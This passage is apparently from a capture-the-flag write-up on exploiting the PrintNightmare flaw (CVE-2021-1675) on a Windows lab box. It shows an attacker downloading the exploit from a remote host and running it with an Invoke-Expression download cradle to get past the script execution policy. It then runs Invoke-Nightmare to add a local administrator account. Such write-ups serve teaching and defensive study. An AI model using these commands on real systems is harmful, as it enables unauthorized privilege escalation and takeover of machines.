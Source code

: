 If I try to upload a copy and load it, Windows blocks that:

```

PS C:\programdata> wget 10.10.14.7/CVE-2021-1675.ps1 -outfile ./in.ps1
PS C:\programdata> ls in.ps1

    Directory: C:\programdata

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          7/9/2021   9:36 AM         178561 in.ps1
PS C:\programdata> Import-Module .\in.ps1
Import-Module : File C:\programdata\in.ps1 cannot be loaded because running scripts is disabled on this system. For 
more information, see about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ Import-Module .\in.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand

```

However, I can just `Invoke-Expression` (or `iex`) the code. I can do so right from the webserver:

```

PS C:\programdata> iex(new-object net.webclient).downloadstring('http://10.10.14.7/CVE-2021-1675.ps1')

```

Or from the local copy:

```

PS C:\programdata> iex(cat in.ps1 -raw)

```

Either way, the code is now loaded. Now I can run it to add a user:

```

PS C:\programdata> Invoke-Nightmare -NewUser "0xdf" -NewPassword "0xdf0xdf"
Invoke-Nightmare -NewUser "0xdf" -NewPassword "0xdf0xdf"
[+] created payload at C:\Users\jason\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\WINDOWS\System32\DriverStore\FileRepository\ntprint.inf_amd64_c62e9f8067f98247\Amd64\mxdwdrv.dll"
[+] added user 0xdf as local administrator
[+] deleting payload from C:\Users\jason\AppData\Local\Temp\nightmare.dll

```

With admin priv, I can PSExec to get remote execution as SYSTEM:
